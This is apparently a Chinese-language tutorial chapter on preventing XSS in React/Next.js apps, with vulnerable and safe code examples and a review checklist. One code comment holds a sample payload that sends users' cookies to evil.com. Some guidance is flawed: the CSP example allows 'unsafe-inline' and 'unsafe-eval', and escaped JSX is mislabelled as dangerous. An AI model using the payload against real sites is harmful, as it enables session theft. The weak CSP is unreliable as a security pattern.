

# 6.3.3 脚本别跑野路子：XSS 攻击

## 本质还原

XSS（Cross-Site Scripting）的本质是：**攻击者想办法让你的网页执行他写的 JavaScript 代码**。一旦成功，他就能窃取用户 Cookie、劫持会话、甚至控制用户账户。



## 三种 XSS 类型

### 1. 反射型 XSS

恶意脚本通过 URL 参数"反射"到页面上。用户点击恶意链接后中招。

```typescript
// ❌ 危险：直接将 URL 参数插入页面
// URL: /search?q=<script>alert('XSS')</script>
export default function SearchPage({ searchParams }) {
  return <div>搜索结果：{searchParams.q}</div>
}
```

### 2. 存储型 XSS

恶意脚本被存入数据库，所有访问该内容的用户都会中招。这是最危险的类型。

```typescript
// ❌ 危险：用户评论直接渲染
// 攻击者提交评论：<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
export default function Comments({ comments }) {
  return (
    <div>
      {comments.map(c => (
        <div dangerouslySetInnerHTML={{ __html: c.content }} />
      ))}
    </div>
  )
}
```

### 3. DOM 型 XSS

恶意脚本通过修改页面 DOM 结构注入，完全在客户端发生。

```typescript
// ❌ 危险：直接操作 innerHTML
useEffect(() => {
  const hash = window.location.hash.slice(1)
  document.getElementById('content').innerHTML = decodeURIComponent(hash)
}, [])
```

## 防护策略

### 策略一：输出编码

React 默认会对内容进行 HTML 转义，这是最重要的防线：

```tsx
// ✅ 安全：React 自动转义
function SafeComponent({ userInput }) {
  return <div>{userInput}</div>  // <script> 会被转义为 &lt;script&gt;
}

// ❌ 危险：绕过 React 的保护
function DangerousComponent({ userInput }) {
  return <div dangerouslySetInnerHTML={{ __html: userInput }} />
}
```

### 策略二：输入验证

在数据入库前进行严格验证：

```typescript
import { z } from 'zod'
import DOMPurify from 'isomorphic-dompurify'

// 方案一：严格限制格式
const CommentSchema = z.object({
  content: z.string()
    .min(1)
    .max(1000)
    .regex(/^[^<>]*$/),  // 禁止尖括号
})

// 方案二：清理 HTML（如果需要支持富文本）
function sanitizeHtml(dirty: string) {
  return DOMPurify.sanitize(dirty, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
    ALLOWED_ATTR: ['href'],
  })
}
```

### 策略三：Content Security Policy

CSP 是最后一道防线，限制页面能执行的脚本来源：

```typescript
// next.config.js
const cspHeader = `
  default-src 'self';
  script-src 'self' 'unsafe-inline' 'unsafe-eval';
  style-src 'self' 'unsafe-inline';
  img-src 'self' blob: data:;
  font-src 'self';
  object-src 'none';
  base-uri 'self';
  form-action 'self';
  frame-ancestors 'none';
`

module.exports = {
  async headers() {
    return [
      {
        source: '/(.*)',
        headers: [
          {
            key: 'Content-Security-Policy',
            value: cspHeader.replace(/\n/g, ''),
          },
        ],
      },
    ]
  },
}
```

## 实战：安全的富文本编辑

如果业务确实需要富文本，使用专业的清理库：

```typescript
// lib/sanitize.ts
import DOMPurify from 'isomorphic-dompurify'

const config = {
  ALLOWED_TAGS: [
    'h1', 'h2', 'h3', 'p', 'br', 'ul', 'ol', 'li',
    'strong', 'em', 'a', 'img', 'blockquote', 'code', 'pre'
  ],
  ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class'],
  ALLOW_DATA_ATTR: false,
  ADD_TAGS: [],
  ADD_ATTR: ['target'],  // 允许链接在新标签页打开
}

export function sanitize(dirty: string): string {
  // 添加 target="_blank" 和 rel="noopener"
  DOMPurify.addHook('afterSanitizeAttributes', (node) => {
    if (node.tagName === 'A') {
      node.setAttribute('target', '_blank')
      node.setAttribute('rel', 'noopener noreferrer')
    }
  })
  
  return DOMPurify.sanitize(dirty, config)
}
```

```tsx
// 组件中安全使用
function RichTextDisplay({ html }) {
  const safeHtml = sanitize(html)
  return <div dangerouslySetInnerHTML={{ __html: safeHtml }} />
}
```

## 审查 AI 生成代码的检查点

::: danger XSS 防护清单
1. [ ] 永远不要直接使用 `dangerouslySetInnerHTML`
2. [ ] 永远不要使用 `eval()` 或 `new Function()`
3. [ ] URL 参数必须验证和转义后再使用
4. [ ] 用户输入存入数据库前必须验证
5. [ ] 如需渲染 HTML，必须使用 DOMPurify 清理
6. [ ] 配置 Content-Security-Policy 响应头
:::
